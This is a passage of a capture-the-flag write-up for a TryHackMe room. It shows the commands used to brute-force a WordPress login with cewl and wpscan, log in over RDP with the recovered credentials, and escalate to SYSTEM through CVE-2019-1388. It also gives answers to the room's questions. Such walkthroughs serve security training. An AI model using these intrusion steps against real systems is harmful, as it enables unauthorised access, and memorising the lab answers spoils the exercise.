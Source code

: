 ```
[+] Data Sent: 966.681 KB
[+] Data Received: 510.738 KB
[+] Memory used: 278.281 MB
[+] Elapsed time: 00:04:02
```
- No other usernames are found. Let's try to bruteforce login
- **QUESTION: Navigate to our discovered hidden directory, what potential username do we discover?** `wade`
- Method 1: bruteforce with cewl
    - Let's generate a list of pass using cewl `cewl http://10.10.133.249/retro/ > pass.txt`
    - Let's bruteforce with wpscan `wpscan --url http://10.10.133.249/retro --passwords Documents/tryhackme/blaster/pass.txt --usernames wade`
```
[!] Valid Combinations Found:
 | Username: wade, Password: parzival
```

- Method 2: having a look at the comments
  - We find a note wade left to himselg `Leaving myself a note here just in case I forget how to spell it: parzival`
- Connect to wordpress we can now go to the wordpress and login using the found password `wade:parzival` **[OPTIONAL BUT FUN :D]** 
- **QUESTION Crawling through the posts, it seems like our user has had some difficulties logging in recently. What possible password do we discover?** `parzival`

### RDP

- Let's try to connect to rdp with the same credentials `xfreerdp /u:wade /v:10.10.191.161 /p:parzival`
- It works!  
![image](https://user-images.githubusercontent.com/96747355/163605244-c67f9082-785d-4076-814a-b6ee5e1639f5.png)  
- **Log into the machine via Microsoft Remote Desktop (MSRDP) and read user.txt. What are it's contents?** - I let you find this one on your own :D 

## Privesc

- **When enumerating a machine, it's often useful to look at what the user was last doing. Look around the machine and see if you can find the CVE which was researched on this server. What CVE was it?** `cve-2019-1388`
- **Looks like an executable file is necessary for exploitation of this vulnerability and the user didn't really clean up very well after testing it. What is the name of this executable?** `hhupd`
- [Here](https://www.youtube.com/watch?v=3BQKpPNlTSo&ab_channel=ZeroDayInitiative) is the video that shows how to use this exploit for privesc
- **Now that we've spawned a terminal, let's go ahead and run the command 'whoami'. What is the output of running this?** `nt authority\system`
```
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\Windows\System32>whoami
nt authority\system
C:\Windows\System32>type C:\Users\Administrator\Desktop\root.txt
[STRIPPED]
```
- **Now that we've confirmed that we have an elevated prompt, read the contents of root.txt on the Administrator's desktop. What are the contents? Keep your terminal up after exploitation so we can use it in task four!** - I let you answer this question on your own :)
